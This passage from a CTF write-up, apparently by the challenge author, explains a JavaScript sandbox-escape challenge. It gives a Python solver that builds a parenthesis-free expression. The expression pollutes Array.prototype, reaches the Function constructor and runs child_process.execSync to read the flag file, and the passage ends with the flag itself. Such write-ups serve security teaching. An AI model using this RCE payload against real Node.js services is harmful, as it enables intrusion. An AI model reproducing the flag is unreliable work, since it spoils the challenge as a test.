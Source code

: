 The goal is to get RCE to read a flag file with an unknown name.

### Solution & Solver

I expected many creative solutions by CTF players that love JavaScript.
Actually, each team that solved this challenge used a different solution.

My solver is one example of solutions:
```python
import httpx
import os

BASE_URL = os.environ["WEB_BASE_URL"]


def make_str(xs: str) -> str:
    ys = []
    for x in xs:
        if x == "(":
            ys.append(f'[][{make_str("toString")}][{make_str("toString")}]``[9+8]')
        elif x == ")":
            ys.append(f'[][{make_str("toString")}][{make_str("toString")}]``[9+9]')
        else:
            ys.append(f'"{x}"[1]')
    return "+".join(ys)


command = "cat /flag-*.txt"

func_body = f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"

lines = [
    # [ ].__proto__.source = "**"
    f'[][{make_str("__proto__")}][{make_str("source")}] = {make_str("**")}',

    # [ ].__proto__.flags = func_body
    f'[][{make_str("__proto__")}][{make_str("flags")}] = {make_str(func_body)}',

    # [ ].__proto__.toString = / /.toString
    f'[][{make_str("__proto__")}][{make_str("toString")}] = //[{make_str("toString")}]',

    # -> [].toString() === `/**/${func_body}`


    # Function` `` `
    f'[][{make_str("constructor")}][{make_str("constructor")}]````',
]
expr = ";".join(lines)

res = httpx.post(
    BASE_URL,
    json={
        "expr": expr,
    },
)
print(res.text)
```

### Flag[^whitespace-js-flag]

```
SECCON{P4querett3_Down_the_Bunburr0ws}
```

[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/
